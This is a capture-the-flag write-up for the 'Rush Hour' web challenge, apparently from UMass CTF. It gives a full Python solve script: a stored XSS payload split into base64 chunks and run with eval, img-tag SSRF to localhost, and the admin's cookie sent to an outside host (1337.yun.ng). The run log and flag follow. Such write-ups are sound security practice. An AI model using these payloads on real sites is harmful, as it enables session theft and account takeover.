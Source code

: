 ```yaml
---
ai_date: 2025-04-27 05:28:11
ai_summary: XSS exploitation using base64 encoded payload and img tags for SSRF to read and send cookie
ai_tags:
  - xss
  - ssrf
  - cookie-read
created: 2025-04-19T02:56
points: 388
solves: 49
tags:
  - xss
title: Rush Hour
updated: 2025-07-14T09:46
---
```


It is pretty clear from the start that this has no XSS protection whatsoever.

Simple payloads work directly using `<script>` tags.

However due to character limits we need to split our payload into individual slices.

For simplicity we can encode the code as base64, split it into even chunks of 7 chars.
The payload simply concatenates the segments together, base64 decode and then `eval` it.

```python
def send_payload(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    add_note("<script>`")
    add_note("`;let c='';`")
    for i in range(0, len(payload), 7):
        chunk = payload[i:i+7]
        add_note(f"`;c+='{chunk}';`")
    add_note("`;c=atob(c);`")
    add_note("`;eval(c);`")
    add_note("`</script>")
```

So how do we get the flag? It requires a SSRF and then reading the cookie, then sending it out.

I quickly found out that `fetch` doesn't work. So I went with `img` tags.

```js
img.src = 'http://127.0.0.1:3000/';
```

By doing this once, we populate `document.cookie` with the flag.

Then we can simply send it out.

```js
location = 'https://1337.yun.ng/?c=' + encodeURIComponent(document.cookie);
```

## solve

> For style points I made the admin XSS another admin

```python
import base64
import time
import requests

from server import webhook

session = requests.Session()
# base = 'http://127.0.0.1:3000'
base = "http://rush-hour-v2.ctf.umasscybersec.org"


def register():
    session.get(base + '/').raise_for_status()
    return session.cookies.get('user')


def logout():
    session.cookies.clear()


def set_user(user_id):
    session.cookies.set('user', user_id)


def get_notes(user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/user/{session.cookies.get('user')}")
    r.raise_for_status()
    return r.text


def add_note(note, user_id=None, use_post=True):
    if user_id:
        set_user(user_id)
    r = session.post(f"{base}/create", data={'note': note}) if use_post else session.get(f"{base}/create", params={'note': note})
    r.raise_for_status()
    return r.text


def clear_notes(user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/clear")
    r.raise_for_status()
    return r.text


def report_user(target_id, user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/report/{target_id}")
    r.raise_for_status()
    return r.text


def send_payload(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    add_note("<script>`")
    add_note("`;let c='';`")
    for i in range(0, len(payload), 7):
        chunk = payload[i:i+7]
        add_note(f"`;c+='{chunk}';`")
    add_note("`;c=atob(c);`")
    add_note("`;eval(c);`")
    add_note("`</script>")


def send_payload_w(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    code = ""
    code += f'await add_note("<script>`");'
    code += f'await add_note("`;let c=\'\';`");'
    for i in range(0, len(payload), 32):
        chunk = payload[i:i+32]
        code += f'await add_note("`;c+=\'{chunk}\';`");'

    code += f'await add_note("`;c=atob(c);`");'
    code += f'await add_note("`;eval(c);`");'
    code += f'await add_note("`</script>");'
    return code


uid = register()
print(f"registered user: {uid}")
print("sending payload...")
send_payload("""
window.sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
window.add_note = (note) => {
    // add img tag
    let img = document.createElement('img');
    if(note) img.src = 'http://127.0.0.1:3000/create?note=' + encodeURIComponent(note);
    else img.src = 'http://127.0.0.1:3000/';
    img.style.display = 'none';
    document.body.appendChild(img);
    return new Promise((resolve) => {
        img.onload = () => {
            document.body.removeChild(img);
            resolve();
        };
        img.onerror = () => {
            document.body.removeChild(img);
            resolve();
        };
    });
};
window.payload = async () => {
    await add_note();
    """ + send_payload_w("""
console.log("this is an xss embedded in a admin's notes");
console.log("totally done for style but hey");
""") + """
    location = 'https://1337.yun.ng/?c=' + encodeURIComponent(document.cookie);
};
window.payload();  
""")
print("activating payload...")
stop, wait = webhook(1337)
report_user(uid)
cookie = wait()['c'][0]
admin_uid = cookie.split(";")[0].split('=')[1]
flag = cookie.split(";")[1].split('=')[1]
print(f"admin uid = {admin_uid}")
print(f"flag = {flag}")
print("waiting for payload to finish on admin...")
time.sleep(4)
report_user(admin_uid)
stop()
```

```
registered user: 3dca4de7-6a04-47e2-bed5-fb4fed0929f7
sending payload...
activating payload...
127.0.0.1 - - [19/Apr/2025 02:54:34] "GET /?c=user%3D89074c1d-5049-48fd-8531-94f111518c4a-admin%3B%20supersecretstring%3DUMASS%257BtH3_cl053Rz_%2540re_n0_m%2540tcH%257D HTTP/1.1" 200 -
admin uid = 89074c1d-5049-48fd-8531-94f111518c4a-admin
flag = UMASS%7BtH3_cl053Rz_%40re_n0_m%40tcH%7D
waiting for payload to finish on admin...
127.0.0.1 - - [19/Apr/2025 02:54:34] "GET /favicon.ico HTTP/1.1" 200 -
```

```flag
UMASS{tH3_cl053Rz_@re_n0_m@tcH}
```